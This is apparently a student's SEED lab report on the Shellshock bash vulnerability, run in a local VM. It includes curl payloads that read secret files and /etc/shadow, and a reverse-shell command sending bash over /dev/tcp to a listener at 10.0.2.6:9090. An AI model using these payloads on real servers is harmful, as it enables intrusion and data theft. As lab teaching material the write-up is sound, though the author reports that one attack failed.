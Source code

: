 ```yaml
---
title: Shellshock
date: 2020-02-25 11:34:56
tags: [Security]
series: [blog]
featured: true
toc: true
comments: true
---
```


![](images/Shellshock/Platform-SEEDUbuntu16__04--32bit-green.svg)  ![](images/Shellshock/SEED-SoftwareSecurityLab-brightgreen.svg)

> This is report of SEED Lab report.

Table of Contents
=================

* [Task 1: Experimenting with Bash Function](#task-1-experimenting-with-bash-function)
* [Task 2: Setting up CGI programs](#task-2-setting-up-cgi-programs)
* [Task 3: Passing Data to Bash via Environment Variable](#task-3-passing-data-to-bash-via-environment-variable)
* [Task 4: Launching the Shellshock Attack](#task-4-launching-the-shellshock-attack)
* [Task 5: Getting a Reverse Shell via Shellshock Attack](#task-5-getting-a-reverse-shell-via-shellshock-attack)
* [Task 6: Using the Patched Bash](#task-6-using-the-patched-bash)


## Task 1: Experimenting with Bash Function

For this task, we need to run  a prepared shell (ubuntu16 has fixed this bug):

```shell
$ /bin/bash_shellshock
```

## Task 2: Setting up CGI programs

In this lab, we will launch a Shellshock attack on a remote web server. Many web servers enable CGI, which is a standard method used to generate dynamic content on Web pages and Web applications. Many CGI programs are written using shell scripts. Therefore, before a CGI program is executed, a shell program will  be invoked first, and such an invocation is triggered by a user from a remote computer. If the shell program is a vulnerable Bash program, we can exploit the Shellshock vulnerable to gain privileges on the server.

create `myproc.cgi`:

```shell
$ touch myprog.cgi
```

fill it with:

```shell
#!/bin/bash_shellshock 
echo "Content-type: text/plain"
echo
echo
echo "Hello World"
```

move it to `/usr/lib/cgi-bin` and set its permission to 755:

```shell
$ sudo chmod 755 myproc.cgi
```

## Task 3: Passing Data to Bash via Environment Variable

we can use `curl -A "info" url` to passing data to bash.

```shell
[02/25/20]seed@VM:.../cgi-bin$  curl -A "hello" http://localhost/cgi-bin/show.cgi
****** Environment Variables ******
HTTP_HOST=localhost
HTTP_USER_AGENT=hello
HTTP_ACCEPT=*/*
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
SERVER_SIGNATURE=<address>Apache/2.4.18 (Ubuntu) Server at localhost Port 80</address>
SERVER_SOFTWARE=Apache/2.4.18 (Ubuntu)
SERVER_NAME=localhost
SERVER_ADDR=127.0.0.1
SERVER_PORT=80
REMOTE_ADDR=127.0.0.1
DOCUMENT_ROOT=/var/www/html
REQUEST_SCHEME=http
CONTEXT_PREFIX=/cgi-bin/
CONTEXT_DOCUMENT_ROOT=/usr/lib/cgi-bin/
SERVER_ADMIN=webmaster@localhost
SCRIPT_FILENAME=/usr/lib/cgi-bin/show.cgi
REMOTE_PORT=34124
GATEWAY_INTERFACE=CGI/1.1
SERVER_PROTOCOL=HTTP/1.1
REQUEST_METHOD=GET
QUERY_STRING=
REQUEST_URI=/cgi-bin/show.cgi
SCRIPT_NAME=/cgi-bin/show.cgi
[02/25/20]seed@VM:.../cgi-bin$ 
```

Then we can find that data “hello” has been sent to `HTTP_USER_AGENT`

## Task 4: Launching the Shellshock Attack

Our target is to leak the info in `/tmp/secret.txt`，which has been created manually before.

If we want to look up some info in a file locally, usually we will use “cat xxx” command.

So our solution is trying to send such command to server and let the server shell execute that command.

```shell
$ curl -A "() { echo hello; }; echo Content_type: text/plain; echo; /bin/cat
/tmp/secret.txt" http://localhost/cgi-bin/show.cgi
```

Here i have tried so many times but i don’t know why it cannot succeed. 

• Using the Shellshock attack to steal the content of a secret file from the server.

• Answer the following question: will you be able to steal the content of the shadow file `/etc/shadow`? Why or why not?

```shell
$ curl -A "() { echo hello; }; echo Content_type: text/plain; echo; /bin/cat /etc/shadow" http://localhost/cgi-bin/show.cgi
```

we cannot steal the content of the shadow file. Because Apache is running with a www-data account, and its cannot access `etc\shadow` of descriptor 620 . So our attack would fail.

## Task 5: Getting a Reverse Shell via Shellshock Attack

First, we need listen on the port 9090 (like the lab we have done before.)

```shell
$ nc -l 9090 -v
```

And then we need construct a malicious code:

```shell
$ curl -A "() { echo hello; }; echo Content_type: text/plain; echo; /bin/bash -i >
/dev/tcp/10.0.2.6/9090 0<&1 2>&1" http://localhost/cgi-bin/show.cgi
```

## Task 6: Using the Patched Bash



```shell
#!/bin/bash
echo "Content-type: text/plain"
echo
echo "****** Environment Variables ******"
strings /proc/$$/environ
```

Then we try to steal the contents.

```shell
$ curl -A "() { echo hello; }; echo Content_type: text/plain; echo; /bin/cat
/tmp/secret.txt" http://localhost/cgi-bin/task6.cgi
```

We will failed in a new bash.
